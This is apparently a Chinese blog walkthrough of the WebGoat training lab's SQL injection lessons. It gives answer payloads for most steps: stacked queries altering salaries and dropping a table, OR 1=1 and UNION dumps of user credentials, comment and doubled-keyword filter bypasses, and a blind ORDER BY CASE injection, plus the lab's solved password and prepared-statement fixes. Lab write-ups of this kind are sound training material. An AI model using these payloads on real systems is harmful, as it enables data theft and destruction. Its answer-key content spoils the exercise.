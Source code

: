 # 原创
：  【webGoat靶场】SQL Injection

# 【webGoat靶场】SQL Injection

**目录**

[SQL](#SQL)

[SQL Injection (intro)](#lesson-title)

[SQL Injection (advanced)](#lesson-title)

[SQL Injection (mitigation)](#lesson-title)

---


## SQL

> 
<h3>SQL Injection (intro)</h3>
2、
select department from employees where first_name='Bob'; 

<hr/>
3、
update employees set department='Sales' where first_name='Tobi'; 

<hr/>
4、
alter table employees add column phone varchar(20); 

<hr/>
5、
grant insert on grant_rights  to unauthorized_user 

<hr/>
9、

<hr/>
 10、

<hr/>
11、

<hr/>
12、
Smith&amp;auth_tan=3SL99A'; update employees set salary = 999999 where last_name='Smith'; -- +

<hr/>
13、
1' drop table access_log;--+ 



---


---


---


---


 

> 
<h3>SQL Injection (advanced)</h3>
3、
Dave' OR 1=1;SELECT * FROM user_system_data;--


<hr/>
5、
先尝试是否可以注册相同的用户名
“Tom”可以注册
"tom"进行注册时，提示该用户已注册


因为tom是对的，所以使用or的话，就永真
tom' or '1'='1

 tom' or '1'='2


考虑使用and
（显示的页面不一样，说明注册中的name处存在注入点）
tom' and 1=1--+<img alt="" height="623" src="https://img-blog.csdnimg.cn/da6cbaad6751487f99a1781ea5f4216b.png" width="884"/>
 tom' and 1=2--+

接下来是bp抓包
1、然后保存到1.txt，再使用sqlmap跑
2、使用bp爆破
（不演示了）
tom
thisisasecretfortomonly

<hr/>
6、
43234





---


> 
<h3>SQL Injection (mitigation)</h3>
5、
getConnection
PreparedStatement ps
prepareStatement
?
?
ps.setString(1, name);
ps.setString(2, mail)


<hr/>
6、
try{ <br/>     Connection conn = null;<br/>     conn=DriverManager.getConnection(DBURL,DBUSER,DBPW);<br/>     PreparedStatement ps=conn.prepareStatement("select * from users where name=?");<br/>     ps.setString(1,"zy");<br/>     ResultSet rs=ps.executeQuery(); <br/> } catch(Exception e){ <br/>     System.out.println("zeze");<br/> }

<hr/>
9、
1'/**/;/**/select/**/user_name,password/**/from/**/user_system_data;--+
 <img alt="" height="345" src="https://img-blog.csdnimg.cn/1021bd02ea824fefb3ced11d341a6ae8.png" width="1177"/>

1'/**/union/**/select/**/1,user_name,password,'1','2','3',4/**/from/**/user_system_data--+

<hr/>
10、
1'/**/union/**/selselectect/**/1,user_name,password,'1','2','3',4/**/frfromom/**/user_system_data--+


 1'/**/;/**/seselectlect/**/user_name,password/**/frfromom/**/user_system_data;--+


<hr/>
12、
题目提示：
1、获取主机名为webgoat-prd的服务器的IP地址
2、Submit 不存在SQL 注入
3、此题都是排序，肯定和order by有关

点Hostname排序，并抓包
找到了hostname——&gt;column参数值是order by参数


 将hostname改为ip试试
（右侧出现排序结果）



此处被带入查询，使用不存在的列名，查看是否会报错
报出了查询语句
select id, hostname, ip, mac, status, description from servers  where status &lt;&gt; 'out of order' order by 1111


语法：select id, hostname, ip, mac, status, description from servers where status &lt;&gt; ‘out of order’ order by case when (true/false) then hostname else id end
order by后的条件，盲猜字段的每一个字符
when (true/false)真假判断，为true按hostname排序，为false按id排序

对ip进行盲注
ip最多有15位，每一位数是0-9
(case when (substring((select ip from servers where hostname=‘webgoat-prd’),1,1)=1) then hostname else id end)
(case%20when%20((select%20substring(ip,1,1)%20from%20servers%20where%20hostname=%27webgoat-prd%27)=1)%20then%20hostname%20else%20id%20end)

payload1

 payload2


查看回应包，成功排序的说明是我们需要的数值 
104.130.219.202




---


---

